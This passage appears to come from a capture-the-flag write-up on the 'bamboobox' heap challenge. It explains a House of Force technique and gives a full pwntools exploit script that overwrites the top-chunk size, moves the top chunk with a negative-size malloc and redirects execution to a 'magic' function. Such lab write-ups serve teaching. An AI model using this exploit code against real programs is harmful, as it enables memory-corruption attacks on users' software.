 To be more precise:-


`0x40 + 0x20` : Difference between the heap addresses
`0xd`: This being the amount of neccessary bytes we need to overwrite.

So, when we give `- (0x40 + 0x20) - 0xd`, this will allocate the chunk to that of the address we want to move.

Then, we allocate this memory and give the address of the `magic` function we want to jump, hence making a fake chunk that resembles the original, making it execute the magic function.



```py
from pwn import *


def add(size, data):
    p.sendlineafter("choice:", "2")
    p.sendlineafter("name:", str(size))
    p.sendafter("item:", data)

def edit(idx, size, data):
    p.sendlineafter("choice:", "3")
    p.sendlineafter("item:", str(idx))
    p.sendlineafter("name:", str(size))
    p.sendafter("item:", data)

def remove(idx):
    p.sendlineafter("choice:", "4")
    p.sendlineafter("item:", str(idx))


p = process("./bamboobox")
elf = ELF("bamboobox")
pause()
add(0x30, "A"*0x30)
edit(0, 0x40 , b"A"*0x30 + b"B"*8  + p64(0xffffffffffffffff))

heap_base = -(0x40 + 0x20)
malloc_size = heap_base - 0xd

add(malloc_size, "c"*4)
add(0x10, p64(0x400d49)*2)

p.interactive()

```



